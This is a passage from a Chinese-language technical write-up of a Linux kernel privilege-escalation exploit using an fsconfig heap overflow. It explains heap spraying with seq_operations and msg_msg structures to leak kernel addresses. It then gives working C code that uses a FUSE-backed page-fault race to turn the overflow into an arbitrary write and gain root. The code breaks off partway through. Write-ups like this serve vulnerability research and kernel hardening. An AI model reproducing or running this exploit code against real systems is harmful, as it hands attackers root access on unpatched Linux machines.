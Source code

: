 6. 喷射一堆 `seq_operations` 结构体，由于属于`kmalloc-32 `，大概率会落在消息第二段后面

   ![image-20220304095339445](img/image-20220304095339445.png)

7. 这时接收消息，其中一个消息被我们溢出篡改了size，那么读取就会发送越界，读到后面的`seq_operations `结构体完成泄露。

步骤2到步骤6堆内存变化如图所示，红色剪头是`fsconfig` 中`legacy_data + size` 指针会指向的位置：

![image-20220304093434300](img/image-20220304093434300.png)

#### 任意地址写完成提权

这一部分就比较简单了，上面提到过，让`msgsnd` 中的`copy_from_user` 发生缺页中断，到我们注册的用户文件系统`fuse` 的处理函数中处理中断，在这期间使用`fsconfig` 溢出覆盖消息的第二段。

```c
void do_win() 
{
    int size = 0x1000;
    char buffer[0x2000] = {0};
    char pat[0x1000] = {0};
    msg* message = (msg*)buffer;
    memset(buffer, 0x44, sizeof(buffer));
    //[1]在0x1337000 mmap 一页
    void *evil_page = mmap((void *)0x1337000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
    uint64_t race_page = 0x1338000;
    msg *rooter = (msg *)(race_page-0x8); //后续关键消息开始设置在刚mmap 的页末尾
    rooter->mtype = 1;
    size = 0x1010;

    int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
    send_msg(target, message, size - 0x30, 0); 
    //[2]设定消息长度为0xfe的消息，会分成两段

    puts("[*] Opening ext4 filesystem");
    fd = fsopen("ext4", 0);
    if (fd < 0) 
    {
            puts("Opening");
            exit(-1);
    }
    puts("[*] Overflowing...");
    strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++) //[3]溢出前填充工作
    {
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }
    
    puts("[*] Prepaing fault handlers via FUSE");
    int evil_fd = open("evil/evil", O_RDWR);
    if (evil_fd < 0)
    {
        perror("evil fd failed");
        exit(-1);
    }
    //[4]使用fuse 文件系统mmap 一页，在0x1338000，也就是上面mmap 的后面
    if ((mmap((void *)0x1338000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED, evil_fd, 0)) != (void *)0x1338000)
    {
        perror("mmap fail fuse 1");
        exit(-1);
    }

    pthread_t thread;
```